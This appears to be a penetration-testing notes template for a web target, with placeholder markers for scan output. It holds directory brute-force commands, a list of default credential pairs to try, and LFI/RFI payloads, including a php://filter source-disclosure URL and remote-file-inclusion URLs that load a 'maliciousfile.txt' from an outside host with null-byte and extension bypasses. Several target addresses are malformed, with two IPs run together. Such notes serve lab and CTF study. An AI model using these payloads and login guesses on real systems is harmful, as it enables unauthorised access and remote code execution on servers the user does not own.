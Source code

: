 
#### Nikto scan


INSERTNIKTOSCAN



#### Url brute force



```
# Dirb
dirb http://10.10.10.8710.10.10.102 -r -o dirb-10.10.10.8710.10.10.102.txt

# Gobuster - remove relevant responde codes (403 for example)
gobuster -u http://10.10.10.8710.10.10.102 -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e
```

INSERTDIRBSCAN


#### Default/Weak login

Google documentation for default passwords and test them:

```
site:webapplication.com password
```

```
admin admin
admin password
admin <blank>
admin nameofservice
root root
root admin
root password
root nameofservice
<username if you have> password
<username if you have> admin
<username if you have> username
<username if you have> nameofservice
```

#### LFI/RFI

```
# Kadimus
/root/Tools/Kadimus/kadimus -u http://10.10.10.8710.10.10.102/example.php?page=


# Bypass execution
http://10.10.10.8710.10.10.102/index.php?page=php://filter/convert.base64-encode/resource=index
base64 -d savefile.php

# Bypass extension
http://10.10.10.8710.10.10.102/page=http://192.168.1.101/maliciousfile.txt%00
http://10.10.10.8710.10.10.102/page=http://192.168.1.101/maliciousfile.txt?
```
